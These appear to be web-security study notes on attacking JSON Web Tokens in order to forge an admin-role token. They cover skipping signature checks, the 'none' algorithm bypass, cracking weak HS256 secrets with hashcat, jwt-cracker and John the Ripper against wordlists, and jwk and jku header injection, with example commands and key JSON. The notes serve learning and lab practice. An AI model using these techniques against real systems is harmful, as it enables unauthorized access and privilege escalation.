 ### JSON Web tokens

---

JSON web tokens (JWTs) are a standardized format for sending cryptographically signed JSON data between systems. Use - authentication, session handling, and access control mechanisms.

Task : We need to generate a JWT token having an admin role instead of having a user. Finding the key used to sign is important otherwise the signature for a different payload won't be correct.

1. `Unverified signature` - No need to verify signature due to implementation flaw, just change the paramters and construct jwt.
2. `Flawed verification` - Change algo to "none" and leave the signature blank to bypass due to flawed implementation.
3. `Weak signing key HS256 (HMAC + SHA-256)` - Sometimes the JWT is encrypted with some hashing algorithm, we need to break it using 'john the ripper' or other bruteforcing tool and reconstruct the jwt. [jwt-secrets](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)

```py
hashcat -a 0 -m 16500 <jwt> <wordlist> --show  

% jwt-cracker -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzA5OTMzODUzfQ.aDP5hVVQQN2uFQL15oTBG1B83j8MnQu0f7IRxodKm24 -d wordlists/rockyou.txt
john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

SECRET FOUND: banana
Time taken (sec): 0.123
Total attempts: 20000
```

4. `jwk header injection` - Change the required paramter then create a new RSA key, use JWT editor, embed the jwk with your newly created RSA key and send the request.

```json
{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```

5. `jku header injection` - A JWK Set is a JSON object containing an array of JWKs representing different keys. You can see an example of this below.

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```
